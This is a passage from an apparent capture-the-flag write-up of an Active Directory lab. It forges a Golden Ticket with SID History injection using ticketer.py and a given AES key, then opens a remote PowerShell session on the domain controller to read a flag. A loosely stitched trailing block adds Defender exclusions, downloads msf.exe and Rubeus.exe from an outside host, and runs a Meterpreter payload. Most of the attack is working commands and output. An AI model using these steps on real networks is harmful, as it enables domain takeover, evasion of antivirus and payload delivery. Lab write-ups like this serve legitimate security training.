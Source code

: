 We now have all the information to forge a Golden Ticket with SID History Injection:

```bash
user@zero:~/MammaMia$ ticketer.py -domain factories.mammamia.local -aesKey 09adb638c673d237eacdf1087a28b22c193553efbb119cf807c89e53cbb257ec -domain-sid S-1-5-21-3201321165-582068547-786307507 -extra-sid S-1-5-21-3304687093-634114622-3569869145-519 -user-id 500 amministratore
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for factories.mammamia.local/amministratore
[*]  PAC_LOGON_INFO
[*]  PAC_CLIENT_INFO_TYPE
[*]  EncTicketPart
[*]  EncAsRepPart
[*] Signing/Encrypting final ticket
[*]  PAC_SERVER_CHECKSUM
[*]  PAC_PRIVSVR_CHECKSUM
[*]  EncTicketPart
[*]  EncASRepPart
[*] Saving ticket in amministratore.ccache
```

From here, we can either inject the TGT into our logon session, or we can proxy everything from Linux. For simplicity, since we already have everything running, and to protect the ticket from other participants, I'll be using the Linux proxy method. Now is also a good time to update the `/etc/krb5.conf` file with the new domain information:

```ini
[libdefaults]
default_realm = MAMMAMIA.LOCAL
kdc_timesync = 1
ccache_type = 4
forwardable = true
proxiable = true
fcc-mit-ticketflags = true

[realms]
MAMMAMIA.LOCAL = {
  kdc = 10.10.0.10
}

FACTORIES.MAMMAMIA.LOCAL = {
  kdc = 10.50.0.10
}

[domain_realm]
.mammamia.local = MAMMAMIA.LOCAL
.factories.mammamia.local = FACTORIES.MAMMAMIA.LOCAL
```

> Remember to update the routing in Metasploit to route through `factrodc`.

We can now use the ticket to get a shell on the `HQDC` computer and grab the flag:

```bash
user@zero:~/MammaMia$ export KRB5CCNAME=amministratore.ccache
user@zero:~/MammaMia$ proxychains -q pwsh
PS /home/user/MammaMia> $SessionOpt = New-PSSessionOption -SkipCACheck:$true -SkipCNCheck:$true
PS /home/user/MammaMia> Enter-PSSession -UseSSL -SessionOption $SessionOpt -ComputerName hqdc.mammamia.local
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
factories.mammamia.local\amministratore
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
hqdc
```

[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      